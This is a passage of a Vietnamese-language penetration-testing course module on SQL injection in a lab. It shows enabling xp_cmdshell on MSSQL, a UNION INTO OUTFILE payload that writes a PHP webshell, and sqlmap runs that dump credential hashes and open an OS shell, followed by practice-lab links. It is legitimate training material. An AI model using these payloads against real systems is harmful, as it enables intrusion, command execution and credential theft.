Tùy thuộc vào hệ thống cơ sở dữ liệu mà chúng ta đang nhắm đến, chúng ta cần điều chỉnh chiến lược của mình để đạt được thực thi mã.

Trong Microsoft SQL Server, hàm `xp_cmdshell` nhận một chuỗi và truyền nó tới một command shell để thực thi. Hàm này trả về bất kỳ đầu ra nào dưới dạng các dòng văn bản. Hàm này bị vô hiệu hóa theo mặc định và, một khi được bật, nó phải được gọi với từ khóa EXECUTE thay vì SELECT.

Trong cơ sở dữ liệu của chúng ta, người dùng Administrator đã có quyền phù hợp. Hãy bật `xp_cmdshell` bằng cách mô phỏng một SQL injection thông qua công cụ impacket-mssqlclient.

```
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
```

                                                      *Listing 27 - Enabling xp_cmdshell feature*

Sau khi đăng nhập từ Kali VM của chúng ta vào MSSQL instance, chúng ta có thể bật show advanced options bằng cách đặt giá trị của nó thành 1, sau đó áp dụng thay đổi vào cấu hình đang chạy qua câu lệnh RECONFIGURE. Tiếp theo, chúng ta sẽ bật xp_cmdshell và áp dụng cấu hình một lần nữa bằng cách sử dụng RECONFIGURE.

Với tính năng này được bật, chúng ta có thể thực thi bất kỳ lệnh shell Windows nào thông qua câu lệnh EXECUTE theo sau bởi tên tính năng.

```
SQL> EXECUTE xp_cmdshell 'whoami';
output

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

nt service\mssql$sqlexpress

NULL
```

                                              *Listing 28 - Executing Commands via xp_cmdshell*

Vì chúng ta có toàn quyền kiểm soát hệ thống, chúng ta giờ có thể dễ dàng nâng cấp SQL shell của mình thành một reverse shell tiêu chuẩn hơn.

Bây giờ hãy chuyển sang các cơ sở dữ liệu MySQL.

Mặc dù các biến thể MySQL khác nhau không cung cấp một hàm duy nhất để leo thang lên RCE, chúng ta có thể lạm dụng câu lệnh SELECT INTO_OUTFILE để ghi tệp lên máy chủ web.

Để cuộc tấn công này hoạt động, vị trí tệp phải có quyền ghi đối với người dùng hệ điều hành đang chạy phần mềm cơ sở dữ liệu.

Ví dụ, hãy tiếp tục payload UNION trên ứng dụng MySQL mục tiêu mà chúng ta đã xem trước đó, mở rộng truy vấn để ghi một webshell lên đĩa.

Chúng ta sẽ thực thi các từ khóa UNION SELECT để bao gồm một dòng PHP duy nhất vào cột đầu tiên và lưu nó dưới dạng `webshell.php` trong một thư mục web có thể ghi.

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

                                *Listing 29 - Write a WebShell To Disk via INTO OUTFILE directive*

Tệp mã PHP được ghi sẽ có nội dung sau:

```
<? system($_REQUEST['cmd']); ?>
```

                                                                *Listing 30 - PHP reverse shell*

Hàm PHP system sẽ phân tích bất kỳ câu lệnh nào được đưa vào tham số cmd đến từ REQUEST của client HTTP, do đó hoạt động như một command shell tương tác qua web.

Nếu chúng ta thử sử dụng payload trên trong trường Lookup của endpoint search.php, chúng ta nhận lỗi sau:


                                                           *Figure 16: Writing the WebShell to Disk*

May mắn thay, lỗi này liên quan đến kiểu trả về không đúng và không ảnh hưởng đến việc ghi webshell lên đĩa.

Để xác nhận, chúng ta có thể truy cập webshell vừa tạo trong thư mục tmp cùng với lệnh id.


                                                                 *Figure 17: Accessing the Webshell*

Tuyệt vời! Webshell hoạt động như mong đợi vì đầu ra của lệnh id được trả về cho chúng ta thông qua trình duyệt web. Chúng ta phát hiện rằng chúng ta đang thực thi lệnh với tư cách người dùng www-data, một danh tính thường liên quan đến máy chủ web trên các hệ thống Linux.

Bây giờ chúng ta đã hiểu cách tận dụng SQLi để thủ công đạt được thực thi lệnh, hãy khám phá cách tự động hóa quá trình này với các công cụ chuyên dụng.

---

## 3.2. Automating the Attack

---

Quá trình SQL injection mà chúng ta đã thực hiện có thể được tự động hóa bằng nhiều công cụ được cài đặt sẵn trên Kali Linux. Cụ thể, sqlmap có thể xác định và khai thác lỗ hổng SQL injection chống lại nhiều hệ cơ sở dữ liệu khác nhau.

Hãy chạy sqlmap trên ứng dụng web mẫu của chúng ta. Chúng ta sẽ đặt URL muốn quét bằng -u và chỉ định tham số cần kiểm tra bằng -p:

```
kali@kali:~$ sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

...
[*] starting @ 02:14:54 PM /2022-05-16/

[14:14:54] [INFO] resuming back-end DBMS 'mysql'
[14:14:54] [INFO] testing connection to the target URL
got a 302 redirect to 'http://192.168.50.16:80/login1.php?msg=2'. Do you want to follow? [Y/n]
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=fbf1f5fa5fc...a7266cba36'). Do you want to use those [Y/n]
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=1' AND (SELECT 1582 FROM (SELECT(SLEEP(5)))dTzB) AND 'hiPB'='hiPB
---
[14:14:57] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP, PHP 7.3.33, Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12
[14:14:57] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.50.16'

[*] ending @ 02:14:57 PM /2022-05-16/
```

                                  *Listing 31 - Running sqlmap to quickly find SQL injection points*

Chúng ta đã gửi toàn bộ URL sau tùy chọn -u cùng với tham số `?user` được đặt thành một giá trị giả. Khi chạy, chúng ta có thể nhấn I cho các tùy chọn mặc định. Sqlmap sau đó trả về xác nhận rằng chúng ta đang xử lý một lỗ hổng SQL injection dạng blind dựa trên thời gian và cung cấp thêm thông tin fingerprinting như hệ điều hành của web server, công nghệ ứng dụng web và cơ sở dữ liệu backend.

Mặc dù lệnh trên xác nhận rằng URL mục tiêu bị SQLi, chúng ta có thể mở rộng kỹ thuật bằng cách sử dụng sqlmap để dump bảng cơ sở dữ liệu và đánh cắp thông tin đăng nhập người dùng.

Mặc dù sqlmap là một công cụ tuyệt vời để tự động hóa các cuộc tấn công SQLi, nó hầu như không có tính tàng hình. Do lượng traffic rất lớn, sqlmap không nên là lựa chọn đầu tiên trong các nhiệm vụ yêu cầu tránh bị phát hiện.

Để dump toàn bộ cơ sở dữ liệu, bao gồm thông tin đăng nhập người dùng, chúng ta có thể chạy cùng lệnh như trước với tham số --dump.

```
kali@kali:~$ sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump
...

[*] starting @ 02:23:49 PM /2022-05-16/

[14:23:49] [INFO] resuming back-end DBMS 'mysql'
[14:23:49] [INFO] testing connection to the target URL
got a 302 redirect to 'http://192.168.50.16:80/login1.php?msg=2'. Do you want to follow? [Y/n]
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=b7c9c962b85...c6c7205dd1'). Do you want to use those [Y/n]
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=1' AND (SELECT 1582 FROM (SELECT(SLEEP(5)))dTzB) AND 'hiPB'='hiPB
---
[14:23:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP, Apache 2.4.52, PHP 7.3.33
back-end DBMS: MySQL >= 5.0.12
[14:23:52] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[14:23:52] [INFO] fetching current database
[02:23:52 PM] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n]
[14:25:26] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
[14:25:26] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)

[14:25:47] [INFO] adjusting time delay to 2 seconds due to good response times
offsec
[14:27:01] [INFO] fetching tables for database: 'offsec'
[14:27:01] [INFO] fetching number of tables for database 'offsec'

[02:27:01 PM] [INFO] retrieved: 2
[02:27:11 PM] [INFO] retrieved: customers
[02:29:25 PM] [INFO] retrieved: users
[14:30:38] [INFO] fetching columns for table 'users' in database 'offsec'
[02:30:38 PM] [INFO] retrieved: 4
[02:30:44 PM] [INFO] retrieved: id
[02:31:14 PM] [INFO] retrieved: username
[02:33:02 PM] [INFO] retrieved: password
[02:35:09 PM] [INFO] retrieved: description
[14:37:56] [INFO] fetching entries for table 'users' in database 'offsec'
[14:37:56] [INFO] fetching number of entries for table 'users' in database 'offsec'
[02:37:56 PM] [INFO] retrieved: 4
[02:38:02 PM] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
[14:38:24] [INFO] adjusting time delay to 1 second due to good response times
this is the admin
[02:40:54 PM] [INFO] retrieved: 1
[02:41:02 PM] [INFO] retrieved: 21232f297a57a5a743894a0e4a801fc3
[02:46:34 PM] [INFO] retrieved: admin
[02:47:15 PM] [INFO] retrieved: try harder
[02:48:44 PM] [INFO] retrieved: 2
[02:48:54 PM] [INFO] retrieved: f9664ea1803311b35f

...
```

                                 *Listing 32 - Running sqlmap to Dump Users Credentials Table*

Vì chúng ta đang xử lý một lỗ hổng blind SQLi dựa trên thời gian, quá trình lấy toàn bộ bảng cơ sở dữ liệu khá chậm, nhưng cuối cùng chúng ta vẫn lấy được toàn bộ thông tin đăng nhập của người dùng dưới dạng hash.

Một tính năng cốt lõi khác của sqlmap là tham số `--os-shell`, cho phép chúng ta có một shell tương tác đầy đủ.

Do độ trễ cao của SQLi dạng time-based blind, chúng không lý tưởng để tương tác với shell, vì vậy chúng ta sẽ sử dụng ví dụ SQLi UNION đầu tiên.

Trước tiên, chúng ta cần chặn request POST bằng Burp và lưu nó thành một tệp văn bản cục bộ trên Kali VM.

```
POST /search.php HTTP/1.1
Host: 192.168.50.19
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://192.168.50.19
Connection: close
Referer: http://192.168.50.19/search.php
Cookie: PHPSESSID=vchu1sfs34oosl52l7pb1kag7d
Upgrade-Insecure-Requests: 1

item=test
```

                                       *Listing 33 - Intercepting the POST request with Burp*

Tiếp theo, chúng ta có thể gọi sqlmap với tùy chọn -r, sử dụng tệp chứa request POST làm đối số. Chúng ta cũng cần chỉ định tham số nào dễ bị tấn công cho sqlmap, trong trường hợp này là item. Cuối cùng, chúng ta sẽ thêm --os-shell cùng với thư mục ghi tùy chỉnh mà chúng ta đã tìm thấy trước đó.

```
kali@kali:~$ sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
...
[*] starting @ 02:20:47 PM /2022-05-19/

[14:20:47] [INFO] parsing HTTP request from 'post'
[14:20:47] [INFO] resuming back-end DBMS 'mysql'
[14:20:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: item (POST)
...
---
[14:20:48] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.6
[14:20:48] [INFO] going to use a web backdoor for command prompt
[14:20:48] [INFO] fingerprinting the back-end DBMS operating system
[14:20:48] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
[14:20:49] [INFO] using '/var/www/html/tmp' as web server document root
[14:20:49] [INFO] retrieved web server absolute paths: '/var/www/html/search.php'
[14:20:49] [INFO] trying to upload the file stager on '/var/www/html/tmp/' via LIMIT 'LINES TERMINATED BY' method
[14:20:50] [WARNING] unable to upload the file stager on '/var/www/html/tmp/'
[14:20:50] [INFO] trying to upload the file stager on '/var/www/html/tmp/' via UNION method
[14:20:50] [WARNING] expect junk characters inside the file as a leftover from UNION query
[14:20:50] [INFO] the remote file '/var/www/html/tmp/tmpuqgek.php' is larger (713 B) than the local file '/tmp/sqlmapxkydllxb82218/tmp3d64iosz' (709B)
[14:20:51] [INFO] the file stager has been successfully uploaded on '/var/www/html/tmp/' - http://192.168.50.19:80/tmp/tmpuqgek.php
[14:20:51] [INFO] the backdoor has been successfully uploaded on '/var/www/html/tmp/' - http://192.168.50.19:80/tmp/tmpbetmz.php
[14:20:51] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> id
do you want to retrieve the command standard output? [Y/n/a] y
command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'

os-shell> pwd
do you want to retrieve the command standard output? [Y/n/a] y
command standard output: '/var/www/html/tmp'
```

                                                     *Listing 34 - Running sqlmap with os-shell*

Khi sqlmap xác nhận lỗ hổng, nó sẽ hỏi chúng ta ngôn ngữ mà ứng dụng web được viết bằng gì, trong trường hợp này là PHP. Tiếp theo, sqlmap tải lên webshell vào thư mục web được chỉ định và trả về shell tương tác, từ đó chúng ta có thể thực thi các lệnh hệ thống thông thường.

---

# 4. Wrapping up

---

Trong Module này, chúng ta đã tập trung vào việc xác định và liệt kê các lỗ hổng SQL injection. Chúng ta đã khám phá các payload khác nhau có thể được sử dụng để khai thác các lỗ hổng ứng dụng web này và đã tìm hiểu cách đạt được thực thi mã thủ công. Cuối cùng, chúng ta đã học cách tự động hóa toàn bộ chuỗi tấn công bằng sqlmap.

---

# 5. Luyện tập

---

## TryHackMe

---

[SQL Injection](https://tryhackme.com/room/sqlinjectionlm?utm_source=chatgpt.com)

[SQL Injection Lab](https://tryhackme.com/room/sqlilab?utm_source=chatgpt.com)

[Advanced SQL Injection](https://tryhackme.com/room/advancedsqlinjection?utm_source=chatgpt.com)

[TryHackMe | Cyber Security Training](https://tryhackme.com/why-subscribe?roomCode=sqlmapthebasics&utm_source=chatgpt.com)

---

## HackTheBox

---

[SQL Injection Fundamentals Course | HTB Academy](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals?utm_source=chatgpt.com)

[Blind SQL Injection Course | HTB Academy](https://academy.hackthebox.com/course/preview/blind-sql-injection?utm_source=chatgpt.com)

---

## PentesterLab

---

[PentesterLab: SQL Injection 01](https://pentesterlab.com/exercises/sqli-01?utm_source=chatgpt.com)

[PentesterLab: SQL Injection 02](https://pentesterlab.com/exercises/sqli_02?utm_source=chatgpt.com)

[PentesterLab: SQL Injection 03](https://pentesterlab.com/exercises/sqli-03?utm_source=chatgpt.com)

[PentesterLab: From SQL Injection to Shell](https://pentesterlab.com/exercises/from-sqli-to-shell?utm_source=chatgpt.com)

[PentesterLab: From SQL Injection to Shell II](https://pentesterlab.com/exercises/from-sqli-to-shell-ii?utm_source=chatgpt.com)

---

# 6. Writeup

---

['Labs/SQL Injection Attacks' 카테고리의 글 목록](https://longhd.tistory.com/category/Labs/SQL%20Injection%20Attacks)